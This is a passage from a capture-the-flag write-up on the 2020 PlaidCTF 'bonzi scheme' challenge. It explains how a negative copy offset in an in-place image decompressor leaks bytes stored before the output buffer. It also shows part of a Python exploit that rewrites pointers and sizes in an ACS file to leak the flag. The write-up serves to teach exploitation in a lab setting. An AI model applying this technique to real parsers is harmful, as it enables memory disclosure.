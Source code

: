 Since the decompression happens in-place, we had the idea to modify the dimensions of the image in such a way that the contents of the flag would be located within the output buffer. Unfortunately the `get_image` function only works on the output of the `decompress_img_in_place`-function. The size of the output depends on the size of the decompressed data and all array accesses beyond that would result in an out-of-bounds exception, thus leaving the pixels black.

Therefore we somehow need to include the flag in the output of the `decompress` function. Since we are not able to render uncompressed images and the format of the localized info struct would not be valid compressed data, we can not place the localized info struct directly in the datablock of the image.

Instead we need to utilize the decompression algorithm. Remember that we are able to specify an offset from the current pointer in the output buffer from where we want to copy data. Usually this offset should still point into the output buffer, but what if we start with a negative offset of `2'000` and then copy the next `2'000` bytes into our output buffer? While we do not know where exactly our output buffer is located, the fact that the decompression algorithm works in-place suggests that we might be able to leak information.

Since we can only read values before the output buffer, we must place the image immediately after the localized info. Luckily for us the localized info is lcoated directly at the end of the file, so we can simply append a new list with one image to the end of the file and update the pointer in the header.

To make decoding the output image easier, we will also update the palette data such that the RGB values of the color at index i are (i,i,i). This means that any of the color values of the pixel equate the value of the byte which we read during the decompression step.

The final exploits looks like this (the complete source code is available in the `2020_plaid_ctf_bonzi_scheme` directory):
```
def parse(data):
    header = ACSHeader(data, 0)

    character = ACSCharacterInfo(data, header.loc_acscharacter.offset)

    # convert the input data to a bytearray to allow index assignments
    abc = bytearray(data)

    # this is the original ACSImageInfo list pointer
    orig_pointer = int.from_bytes(data[20:24], BO)

    # update the ACSImageInfo pointer to point to the end of the file
    abc[20:24] = len(data).to_bytes(4, byteorder=BO)

    # set the size of our new list to be one
    abc += (1).to_bytes(4, byteorder=BO)

    # copy the first entry of the list
    abc += data[orig_pointer+4:orig_pointer+16]

    # this is the pointer to the original first image in the list
    orig_img_pointer = ifb(abc[-12:-8])

    # set the pointer in the ACSImageInfo struct to the end of the file
    list_len = len(abc)
    abc[-12:-8] = list_len.to_bytes(4, byteorder=BO)

    # copy 500kB from the original image so our original image is guaranteed
    # to be complete (although 500kB is way more than necessary)
    new_img_pointer = len(abc)
    abc += data[orig_img_pointer:orig_img_pointer+500000]

    # update the size in the ACSLocator in the header, since this is checked
    # on the server to be within the boundaries of the file
    abc[24:28] = (len(abc) - len(data)).to_bytes(4, byteorder=BO)

```